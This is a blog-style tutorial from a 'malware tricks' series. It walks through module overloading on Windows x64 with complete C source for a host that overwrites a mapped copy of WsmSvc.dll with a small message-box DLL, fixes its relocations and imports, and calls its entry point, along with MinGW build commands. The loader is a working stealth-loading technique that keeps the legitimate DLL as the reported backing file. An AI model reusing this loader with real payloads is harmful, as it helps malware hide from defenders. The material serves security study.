﷽

Hello, cybersecurity enthusiasts and white hackers!    

{:class="img-responsive"}     

In [trick 59](/malware/2026/06/28/malware-tricks-59.html), we overwrote a function. In [trick 61](/malware/2026/07/29/malware-tricks-61.html), we mapped a DLL and replaced its entry-point instructions with shellcode. Today I want to continue that experiment with *module overloading*: place a complete PE image inside the image mapping of another DLL.    

As usual, the visible result will be a `Meow-meow!` message box with the `=^..^=` caption. This time the payload is a small DLL written in C. The host must prepare its imports and relocations before calling its entry point.    

### a few words before we start

The names *module stomping*, *DLL hollowing*, and *module overloading* overlap in different publications. In this post, I use the following distinction:    

- function stomping - instructions at a selected function    
- module stomping in trick 61 - instructions at the carrier DLL's entry point    
- module overloading here - the carrier's mapped headers and section contents, using another PE image   

The important change is the payload format. Position-independent shellcode already contains instructions designed for its execution environment. An ordinary DLL also contains section layouts, an import table and possibly absolute addresses that depend on its preferred image base. Copying its file bytes to a new address does not prepare it for execution.        

We will use two files:    

- `hack.c`: reads our payload, maps the carrier, prepares the replacement image and calls its entry point.    
- `meow.c`: builds the small `meow.dll` payload that displays the dialog.     

Everything happens in the current process. The carrier is `WsmSvc.dll` from the Windows system directory. We open that file for reading and create a separate image view of it.     

### concept

Here is the sequence:    

{:class="img-responsive"}     

The section object was created from the carrier file. Replacing bytes in that view does not turn it into a section object created from `meow.dll`. This gives us two things to compare: the mapping's backing file and the PE contents currently inside the mapping.    

An image view is reported as `MEM_IMAGE`. Microsoft documents an important detail: after a copy-on-write image page becomes private to the process, `VirtualQuery` can still report `MEM_IMAGE`. To investigate sharing at page level, use the `Shared` bit from `QueryWorkingSetEx`; the mapping type alone does not answer that question. See [VirtualQuery](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualquery).    

### practical example

First of all, let's prepare the payload. I use a direct DLL entry point and omit C runtime startup for this small experiment. That keeps the payload's loading requirements visible.    

Now the complete payload (`meow.c`):    

```cpp
/*
 * meow.c - a small PE payload for the module overloading lab
 * author: @cocomelonc
 */
#include <windows.h>

#ifndef _WIN64
#error Build this example for Windows x64.
#endif

static const char message[] = "Meow-meow!";
/* Keep an absolute pointer in .data so that the DLL needs a DIR64 relocation. */
static const char *volatile text = message;

BOOL WINAPI DllMain(HINSTANCE instance, DWORD reason, LPVOID reserved) {
  (void)instance;
  (void)reserved;
  if (reason == DLL_PROCESS_ATTACH)
    return MessageBoxA(NULL, text, "=^..^=", MB_OK) != 0;
  return TRUE;
}
```

The `text` pointer is intentional. Its initial value is an absolute address inside the DLL, so the linker emits a `DIR64` relocation. Declaring the pointer `volatile` makes the function read it at runtime. That lets the experiment exercise relocation handling as well as import resolution.    

The payload calls `MessageBoxA` through its import table. Our host will load the dependency and fill in that table before invoking the entry point. The host calls this function directly outside normal DLL initialization; a GUI call inside a normally loaded `DllMain` is not a general initialization pattern. See Microsoft's [DLL initialization guidance](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices).    

Let's walk through `hack.c` before putting the whole program together. The snippets show the mechanism; the complete source includes the checks and cleanup.    

First, read `meow.dll` as an ordinary file:    

```cpp
file = CreateFileW(L"meow.dll", GENERIC_READ, FILE_SHARE_READ, NULL,
                   OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (file == INVALID_HANDLE_VALUE) {
  printf("CreateFileW failed: %lu\n", GetLastError());
  goto cleanup;
}
if (!GetFileSizeEx(file, &length)) {
  printf("GetFileSizeEx failed: %lu\n", GetLastError());
  goto cleanup;
}

// after checking the size, allocate a data buffer and read the file
raw = HeapAlloc(GetProcessHeap(), 0, (SIZE_T)length.QuadPart);
if (!raw) {
  printf("HeapAlloc failed\n");
  goto cleanup;
}
if (!ReadFile(file, raw, (DWORD)length.QuadPart, &bytes, NULL)) {
  printf("ReadFile failed: %lu\n", GetLastError());
  goto cleanup;
}
```

`raw` contains the file layout. We do not execute from this heap buffer. Parse the DOS header, follow `e_lfanew` to the NT headers, and extract `SizeOfImage`, `SizeOfHeaders`, the section table and data directories. The full source checks for a PE32+ AMD64 DLL and verifies the file ranges before copying.    

This example expects the DLL built by the supplied command. It rejects loading requirements it does not implement: TLS, delay imports, CLR, load-configuration processing and exception-table registration. It also checks section alignment, overlapping page ranges and whether the entry point belongs to executable section contents.    

Next, locate the system directory and create the carrier image mapping:    

```cpp
UINT n = GetSystemDirectoryW(path, MAX_PATH);
if (!n || n + lstrlenW(L"\\WsmSvc.dll") >= MAX_PATH) {
  printf("system directory path is too long\n");
  goto cleanup;
}
lstrcatW(path, L"\\WsmSvc.dll");

file = CreateFileW(path, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_DELETE,
                   NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (file == INVALID_HANDLE_VALUE) {
  printf("CreateFileW failed: %lu\n", GetLastError());
  goto cleanup;
}
section = CreateFileMappingW(file, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
if (!section) {
  printf("CreateFileMappingW failed: %lu\n", GetLastError());
  goto cleanup;
}
base = MapViewOfFile(section, FILE_MAP_READ, 0, 0, 0);
if (!base) {
  printf("MapViewOfFile failed: %lu\n", GetLastError());
  goto cleanup;
}
```

`SEC_IMAGE` asks Windows to map the file as an executable image. Its initial page protections come from the image, so `FILE_MAP_READ` does not make every page of an image view read-only. Mapping it this way also does not perform ordinary DLL initialization or call the carrier's `DllMain`. See [CreateFileMappingW](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-createfilemappingw) and [MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile).    

Read and save the carrier's `SizeOfImage` before replacing anything. It must be at least as large as the payload's `SizeOfImage`. Raw file length is not the right capacity check: a PE image can occupy more memory than its file length suggests.    

Now make the carrier view writable and replace its contents. Copy the headers first, then place each section at its virtual address:    

```cpp
if (!VirtualProtect(base, carrier_size, PAGE_READWRITE, &old)) {
  printf("VirtualProtect failed: %lu\n", GetLastError());
  goto cleanup;
}
memset(base, 0, carrier_size);
memcpy(base, raw, headers);
for (WORD i = 0; i < count; i++)
  if (sections[i].SizeOfRawData)
    memcpy(base + sections[i].VirtualAddress,
           raw + sections[i].PointerToRawData, sections[i].SizeOfRawData);
```

The distinction is:    

```text
source      = file buffer + PointerToRawData
destination = mapped base + VirtualAddress
```

For the DLL produced by my MinGW build, the entry point is at RVA `0x1000`, while `.text` begins at file offset `0x400`. An RVA describes a location in the loaded image; it is not a file offset. The zeroed view also supplies the initial zero bytes for section space without raw file contents.    

Next, fix absolute addresses. The relocation delta is:    

```cpp
ULONGLONG delta = (ULONGLONG)(ULONG_PTR)base - nt->OptionalHeader.ImageBase;
```

Walk the base-relocation directory block by block. A relocation item contains a type in its upper four bits and an offset in its lower twelve bits. For each `IMAGE_REL_BASED_DIR64` item:    

```cpp
SIZE_T rva = (SIZE_T)block->VirtualAddress + (items[i] & 0xfff);
*(ULONGLONG *)(base + rva) += delta;
```

`IMAGE_REL_BASED_ABSOLUTE` items are padding and are skipped. Other relocation types are rejected. The pointer stored in our payload's `.data` will now refer to the message inside the replacement mapping.    

Then resolve imports. For each import descriptor, load the dependency with `LoadLibraryA`, walk the import lookup table, resolve each function with `GetProcAddress`, and write its address to the corresponding IAT slot:    

```cpp
HMODULE module = LoadLibraryA((char *)base + desc->Name);
// ... inspect the lookup entry: an ordinal or an IMAGE_IMPORT_BY_NAME RVA
FARPROC address = GetProcAddress(module, name);
*(ULONGLONG *)(base + target) = (ULONGLONG)(ULONG_PTR)address;
```

Our DLL needs `USER32.dll!MessageBoxA`. The complete loop also handles ordinal imports and uses `FirstThunk` as the lookup source when `OriginalFirstThunk` is zero. The DLL handles remain open until the payload returns. The [PE specification](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format) describes the section, import and relocation structures used here.    

Now apply the *replacement image's* section protections. The old carrier layout no longer describes our bytes:    

```cpp
if (!VirtualProtect(base, carrier_size, PAGE_NOACCESS, &old)) {
  printf("VirtualProtect failed: %lu\n", GetLastError());
  goto cleanup;
}
if (!VirtualProtect(base, headers, PAGE_READONLY, &old)) {
  printf("VirtualProtect failed: %lu\n", GetLastError());
  goto cleanup;
}

// inside the section loop
DWORD flags = sections[i].Characteristics;
DWORD protection = (flags & IMAGE_SCN_MEM_EXECUTE) ? PAGE_EXECUTE_READ :
                   (flags & IMAGE_SCN_MEM_WRITE) ? PAGE_READWRITE :
                   (flags & IMAGE_SCN_MEM_READ) ? PAGE_READONLY : PAGE_NOACCESS;
if (!VirtualProtect(base + sections[i].VirtualAddress, span, protection, &old)) {
  printf("VirtualProtect failed: %lu\n", GetLastError());
  goto cleanup;
}
```

Headers become read-only, code becomes executable and readable, and writable data remains writable. Unused carrier pages stay inaccessible. This compact example rejects sections requesting both write and execute access. Finally, call `FlushInstructionCache` before executing the copied instructions.    

Before execution, query the entry-point address and ask for the mapping's backing file name:    

```cpp
BYTE *entry = base + nt->OptionalHeader.AddressOfEntryPoint;
if (VirtualQuery(entry, &memory, sizeof(memory)) != sizeof(memory)) {
  printf("VirtualQuery failed: %lu\n", GetLastError());
  goto cleanup;
}
DWORD path_length = GetMappedFileNameW(GetCurrentProcess(), entry, backing, MAX_PATH);
```

`VirtualQuery` describes the mapping and current protection. `GetMappedFileNameW` reports the mapped file associated with that address; its path can use device-path notation. We expect it to identify the carrier even though the image headers and sections now come from our payload.    

Call the replacement entry point with the DLL signature:    

```cpp
BOOL (WINAPI *entry_point)(HINSTANCE, DWORD, LPVOID) =
  (BOOL (WINAPI *)(HINSTANCE, DWORD, LPVOID))entry;
if (!entry_point((HINSTANCE)base, DLL_PROCESS_ATTACH, NULL)) {
  printf("payload entry point returned FALSE\n");
  goto cleanup;
}
```

This is a synchronous call. Close the message box and the payload returns to `main()`. There is no thread-exit payload to terminate the host's main thread.    

Now the complete program (`hack.c`):    

```cpp
/*
 * hack.c - local module overloading, Windows x64
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2026/11/02/malware-tricks-68.html
 */
#include <windows.h>
#include <psapi.h>
#include <stdio.h>
#include <string.h>

#ifndef _WIN64
#error Build this example for Windows x64.
#endif

int main(void) {
  int result = 1;
  HANDLE file = INVALID_HANDLE_VALUE, section = NULL;
  BYTE *raw = NULL, *base = NULL;
  LARGE_INTEGER length;
  DWORD bytes = 0, old = 0;
  SIZE_T image_size = 0, carrier_size = 0;
  HMODULE imports[32] = {0};
  unsigned int import_count = 0;
  WCHAR path[MAX_PATH];
  MEMORY_BASIC_INFORMATION memory;
  SYSTEM_INFO system;

  // read our small DLL as data; do not load it with LoadLibrary
  file = CreateFileW(L"meow.dll", GENERIC_READ, FILE_SHARE_READ, NULL,
                     OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (file == INVALID_HANDLE_VALUE) {
    printf("CreateFileW failed: %lu\n", GetLastError());
    goto cleanup;
  }
  if (!GetFileSizeEx(file, &length)) {
    printf("GetFileSizeEx failed: %lu\n", GetLastError());
    goto cleanup;
  }
  if (length.QuadPart < (LONGLONG)sizeof(IMAGE_DOS_HEADER) ||
      length.QuadPart > 16 * 1024 * 1024) {
    printf("unexpected payload file size\n");
    goto cleanup;
  }
  raw = HeapAlloc(GetProcessHeap(), 0, (SIZE_T)length.QuadPart);
  if (!raw) {
    printf("HeapAlloc failed\n");
    goto cleanup;
  }
  if (!ReadFile(file, raw, (DWORD)length.QuadPart, &bytes, NULL)) {
    printf("ReadFile failed: %lu\n", GetLastError());
    goto cleanup;
  }
  if (bytes != (DWORD)length.QuadPart) {
    printf("incomplete payload read\n");
    goto cleanup;
  }
  CloseHandle(file);
  file = INVALID_HANDLE_VALUE;

  IMAGE_DOS_HEADER *dos = (IMAGE_DOS_HEADER *)raw;
  if (dos->e_magic != IMAGE_DOS_SIGNATURE || dos->e_lfanew <= 0 ||
      (ULONGLONG)dos->e_lfanew + sizeof(IMAGE_NT_HEADERS64) > bytes) {
    printf("invalid DOS header\n");
    goto cleanup;
  }
  IMAGE_NT_HEADERS64 *nt = (IMAGE_NT_HEADERS64 *)(raw + dos->e_lfanew);
  if (nt->Signature != IMAGE_NT_SIGNATURE ||
      nt->FileHeader.Machine != IMAGE_FILE_MACHINE_AMD64 ||
      !(nt->FileHeader.Characteristics & IMAGE_FILE_DLL) ||
      nt->OptionalHeader.Magic != IMAGE_NT_OPTIONAL_HDR64_MAGIC ||
      nt->FileHeader.SizeOfOptionalHeader != sizeof(IMAGE_OPTIONAL_HEADER64) ||
      nt->OptionalHeader.NumberOfRvaAndSizes != IMAGE_NUMBEROF_DIRECTORY_ENTRIES) {
    printf("expected the x64 DLL built from meow.c\n");
    goto cleanup;
  }
  image_size = nt->OptionalHeader.SizeOfImage;
  SIZE_T headers = nt->OptionalHeader.SizeOfHeaders;
  SIZE_T table = dos->e_lfanew + sizeof(IMAGE_NT_HEADERS64);
  WORD count = nt->FileHeader.NumberOfSections;
  GetSystemInfo(&system);
  if (!image_size || image_size > 16 * 1024 * 1024 || !headers ||
      headers > image_size || headers > bytes || !count || count > 96 ||
      table + (SIZE_T)count * sizeof(IMAGE_SECTION_HEADER) > headers ||
      nt->OptionalHeader.SectionAlignment != system.dwPageSize) {
    printf("unsupported image layout\n");
    goto cleanup;
  }
  IMAGE_SECTION_HEADER *sections = (IMAGE_SECTION_HEADER *)(raw + table);
  IMAGE_DATA_DIRECTORY *dirs = nt->OptionalHeader.DataDirectory;
  if (dirs[IMAGE_DIRECTORY_ENTRY_TLS].Size ||
      dirs[IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT].Size ||
      dirs[IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR].Size ||
      dirs[IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG].Size ||
      dirs[IMAGE_DIRECTORY_ENTRY_EXCEPTION].Size) {
    printf("this lab DLL must not need TLS, delay imports, CLR, load config or unwind registration\n");
    goto cleanup;
  }

  SIZE_T previous_end = (headers + system.dwPageSize - 1) &
                       ~((SIZE_T)system.dwPageSize - 1);
  BOOL executable_entry = FALSE;
  for (WORD i = 0; i < count; i++) {
    SIZE_T span = sections[i].Misc.VirtualSize;
    if (span < sections[i].SizeOfRawData) span = sections[i].SizeOfRawData;
    DWORD rva = sections[i].VirtualAddress;
    if ((ULONGLONG)sections[i].PointerToRawData + sections[i].SizeOfRawData > bytes ||
        (ULONGLONG)rva + span > image_size || rva < previous_end ||
        rva % system.dwPageSize != 0) {
      printf("invalid section range\n");
      goto cleanup;
    }
    if ((sections[i].Characteristics & IMAGE_SCN_MEM_EXECUTE) &&
        (sections[i].Characteristics & IMAGE_SCN_MEM_WRITE)) {
      printf("the lab DLL must not contain writable executable sections\n");
      goto cleanup;
    }
    previous_end = (rva + span + system.dwPageSize - 1) &
                   ~((SIZE_T)system.dwPageSize - 1);
    if ((sections[i].Characteristics & IMAGE_SCN_MEM_EXECUTE) &&
        nt->OptionalHeader.AddressOfEntryPoint >= rva &&
        nt->OptionalHeader.AddressOfEntryPoint - rva < span)
      executable_entry = TRUE;
  }
  if (!executable_entry) {
    printf("entry point is outside executable sections\n");
    goto cleanup;
  }

  // map a separate image view of the carrier; its DllMain is not called
  UINT n = GetSystemDirectoryW(path, MAX_PATH);
  if (!n || n + lstrlenW(L"\\WsmSvc.dll") >= MAX_PATH) {
    printf("system directory path is too long\n");
    goto cleanup;
  }
  lstrcatW(path, L"\\WsmSvc.dll");
  file = CreateFileW(path, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_DELETE,
                     NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (file == INVALID_HANDLE_VALUE) {
    printf("CreateFileW failed: %lu\n", GetLastError());
    goto cleanup;
  }
  section = CreateFileMappingW(file, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
  if (!section) {
    printf("CreateFileMappingW failed: %lu\n", GetLastError());
    goto cleanup;
  }
  base = MapViewOfFile(section, FILE_MAP_READ, 0, 0, 0);
  if (!base) {
    printf("MapViewOfFile failed: %lu\n", GetLastError());
    goto cleanup;
  }
  IMAGE_NT_HEADERS64 *carrier = (IMAGE_NT_HEADERS64 *)(base +
    ((IMAGE_DOS_HEADER *)base)->e_lfanew);
  carrier_size = carrier->OptionalHeader.SizeOfImage;
  if (carrier->FileHeader.Machine != IMAGE_FILE_MACHINE_AMD64 ||
      image_size > carrier_size) {
    printf("payload does not fit the x64 carrier\n");
    goto cleanup;
  }
  if (VirtualQuery(base, &memory, sizeof(memory)) != sizeof(memory)) {
    printf("VirtualQuery failed: %lu\n", GetLastError());
    goto cleanup;
  }
  if (memory.Type != MEM_IMAGE) {
    printf("carrier is not an image mapping\n");
    goto cleanup;
  }
  printf("carrier: %ls\nbase: %p, carrier: %zu, payload image: %zu\n",
         path, (void *)base, carrier_size, image_size);
  printf("before: Type = 0x%08lx (MEM_IMAGE)\n", memory.Type);
  printf("press Enter to replace the image...");
  getchar();

  // copy the PE layout: file offsets -> virtual addresses
  if (!VirtualProtect(base, carrier_size, PAGE_READWRITE, &old)) {
    printf("VirtualProtect failed: %lu\n", GetLastError());
    goto cleanup;
  }
  memset(base, 0, carrier_size);
  memcpy(base, raw, headers);
  for (WORD i = 0; i < count; i++)
    if (sections[i].SizeOfRawData)
      memcpy(base + sections[i].VirtualAddress,
             raw + sections[i].PointerToRawData, sections[i].SizeOfRawData);

  // relocate absolute addresses to the carrier's actual base
  ULONGLONG delta = (ULONGLONG)(ULONG_PTR)base - nt->OptionalHeader.ImageBase;
  IMAGE_DATA_DIRECTORY reloc = dirs[IMAGE_DIRECTORY_ENTRY_BASERELOC];
  if (delta) {
    if (!reloc.Size ||
        (ULONGLONG)reloc.VirtualAddress + reloc.Size > image_size) {
      printf("missing or invalid relocation directory\n");
      goto cleanup;
    }
    SIZE_T offset = 0;
    while (offset < reloc.Size) {
      if (offset + sizeof(IMAGE_BASE_RELOCATION) > reloc.Size) {
        printf("truncated relocation block\n");
        goto cleanup;
      }
      IMAGE_BASE_RELOCATION *block = (IMAGE_BASE_RELOCATION *)(
        base + reloc.VirtualAddress + offset);
      DWORD block_size = block->SizeOfBlock;
      if (block_size < sizeof(*block) || offset + block_size > reloc.Size ||
          (block_size - sizeof(*block)) % sizeof(WORD) != 0) {
        printf("invalid relocation block\n");
        goto cleanup;
      }
      WORD *items = (WORD *)(block + 1);
      for (SIZE_T i = 0; i < (block_size - sizeof(*block)) / sizeof(WORD); i++) {
        WORD type = items[i] >> 12;
        if (type == IMAGE_REL_BASED_ABSOLUTE) continue;
        SIZE_T rva = (SIZE_T)block->VirtualAddress + (items[i] & 0xfff);
        if (type != IMAGE_REL_BASED_DIR64 || rva + sizeof(ULONGLONG) > image_size) {
          printf("unsupported relocation\n");
          goto cleanup;
        }
        *(ULONGLONG *)(base + rva) += delta;
      }
      offset += block_size;
    }
  }
  printf("relocation delta: 0x%llx\n", delta);

  // resolve imports in this process; the payload's own IAT is still just RVAs
  IMAGE_DATA_DIRECTORY imp = dirs[IMAGE_DIRECTORY_ENTRY_IMPORT];
  if (!imp.Size || (ULONGLONG)imp.VirtualAddress + imp.Size > image_size) {
    printf("invalid import directory\n");
    goto cleanup;
  }
  SIZE_T offset = 0;
  for (;;) {
    if (offset + sizeof(IMAGE_IMPORT_DESCRIPTOR) > imp.Size) {
      printf("missing import descriptor terminator\n");
      goto cleanup;
    }
    IMAGE_IMPORT_DESCRIPTOR *desc = (IMAGE_IMPORT_DESCRIPTOR *)(
      base + imp.VirtualAddress + offset);
    if (!desc->Name) break;
    if (desc->Name >= image_size ||
        !memchr(base + desc->Name, 0, image_size - desc->Name) ||
        !desc->FirstThunk || import_count >= 32) {
      printf("invalid import descriptor\n");
      goto cleanup;
    }
    HMODULE module = LoadLibraryA((char *)base + desc->Name);
    if (!module) {
      printf("LoadLibraryA failed: %lu\n", GetLastError());
      goto cleanup;
    }
    imports[import_count++] = module;
    SIZE_T lookup = desc->OriginalFirstThunk ? desc->OriginalFirstThunk : desc->FirstThunk;
    SIZE_T target = desc->FirstThunk;
    for (;;) {
      if (lookup + sizeof(ULONGLONG) > image_size ||
          target + sizeof(ULONGLONG) > image_size) {
        printf("invalid import thunk\n");
        goto cleanup;
      }
      ULONGLONG value = *(ULONGLONG *)(base + lookup);
      if (!value) break;
      LPCSTR name;
      if (IMAGE_SNAP_BY_ORDINAL64(value)) {
        name = MAKEINTRESOURCEA(IMAGE_ORDINAL64(value));
      } else {
        if (value > image_size || sizeof(WORD) + 1 > image_size - (SIZE_T)value) {
          printf("invalid import name RVA\n");
          goto cleanup;
        }
        SIZE_T name_rva = (SIZE_T)value + sizeof(WORD);
        if (!memchr(base + name_rva, 0, image_size - name_rva)) {
          printf("unterminated import name\n");
          goto cleanup;
        }
        name = (LPCSTR)(base + name_rva);
      }
      FARPROC address = GetProcAddress(module, name);
      if (!address) {
        printf("GetProcAddress failed: %lu\n", GetLastError());
        goto cleanup;
      }
      *(ULONGLONG *)(base + target) = (ULONGLONG)(ULONG_PTR)address;
      lookup += sizeof(ULONGLONG);
      target += sizeof(ULONGLONG);
    }
    offset += sizeof(IMAGE_IMPORT_DESCRIPTOR);
  }

  // restore the payload's section permissions, not the carrier's old layout
  if (!VirtualProtect(base, carrier_size, PAGE_NOACCESS, &old)) {
    printf("VirtualProtect failed: %lu\n", GetLastError());
    goto cleanup;
  }
  if (!VirtualProtect(base, headers, PAGE_READONLY, &old)) {
    printf("VirtualProtect failed: %lu\n", GetLastError());
    goto cleanup;
  }
  for (WORD i = 0; i < count; i++) {
    SIZE_T span = sections[i].Misc.VirtualSize;
    if (span < sections[i].SizeOfRawData) span = sections[i].SizeOfRawData;
    if (!span) continue;
    DWORD flags = sections[i].Characteristics;
    DWORD protection = (flags & IMAGE_SCN_MEM_EXECUTE) ? PAGE_EXECUTE_READ :
                       (flags & IMAGE_SCN_MEM_WRITE) ? PAGE_READWRITE :
                       (flags & IMAGE_SCN_MEM_READ) ? PAGE_READONLY : PAGE_NOACCESS;
    if (!VirtualProtect(base + sections[i].VirtualAddress, span, protection, &old)) {
      printf("VirtualProtect failed: %lu\n", GetLastError());
      goto cleanup;
    }
  }
  if (!FlushInstructionCache(GetCurrentProcess(), base, image_size)) {
    printf("FlushInstructionCache failed: %lu\n", GetLastError());
    goto cleanup;
  }
  BYTE *entry = base + nt->OptionalHeader.AddressOfEntryPoint;
  if (VirtualQuery(entry, &memory, sizeof(memory)) != sizeof(memory)) {
    printf("VirtualQuery failed: %lu\n", GetLastError());
    goto cleanup;
  }
  WCHAR backing[MAX_PATH];
  DWORD path_length = GetMappedFileNameW(GetCurrentProcess(), entry, backing, MAX_PATH);
  if (!path_length) {
    printf("GetMappedFileNameW failed: %lu\n", GetLastError());
    goto cleanup;
  }
  if (path_length >= MAX_PATH) {
    printf("backing file path was truncated\n");
    goto cleanup;
  }
  backing[path_length] = L'\0';
  printf("after: Type = 0x%08lx, Protect = 0x%08lx\n", memory.Type, memory.Protect);
  printf("backing: %ls\nentry: %p\n", backing, (void *)entry);
  printf("press Enter to call the replacement DLL entry point...");
  getchar();

  BOOL (WINAPI *entry_point)(HINSTANCE, DWORD, LPVOID) =
    (BOOL (WINAPI *)(HINSTANCE, DWORD, LPVOID))entry;
  if (!entry_point((HINSTANCE)base, DLL_PROCESS_ATTACH, NULL)) {
    printf("payload entry point returned FALSE\n");
    goto cleanup;
  }
  printf("Meow-meow returned; unmapping the carrier view\n");
  result = 0;

cleanup:
  if (base) UnmapViewOfFile(base);
  while (import_count) FreeLibrary(imports[--import_count]);
  if (section) CloseHandle(section);
  if (file != INVALID_HANDLE_VALUE) CloseHandle(file);
  if (raw) HeapFree(GetProcessHeap(), 0, raw);
  return result;
}
```

The loading steps and error checks are written directly in `main()`. Each failed call or unsupported PE field leads to the same `cleanup` block, which releases the mapping, imported DLL handles and file buffer.    

### demo

First of all, compile the payload with MinGW-w64 on Linux:    

```bash
x86_64-w64-mingw32-gcc -std=c11 -Wall -Wextra -O2 -shared -nostdlib -fno-stack-protector -fno-asynchronous-unwind-tables -fno-unwind-tables meow.c -o meow.dll -Wl,--entry=DllMain,--image-base=0x180000000,--disable-runtime-pseudo-reloc -luser32
```

{:class="img-responsive"}    

`--entry=DllMain` selects our direct entry point. `-nostdlib` omits CRT startup. The unwind-table flags keep exception metadata out of this particular payload; the host does not register an exception table. These choices define the supported lab DLL.    

Compile the host:    

```bash
x86_64-w64-mingw32-gcc -std=c11 -Wall -Wextra -O2 hack.c -o hack.exe -lpsapi
```

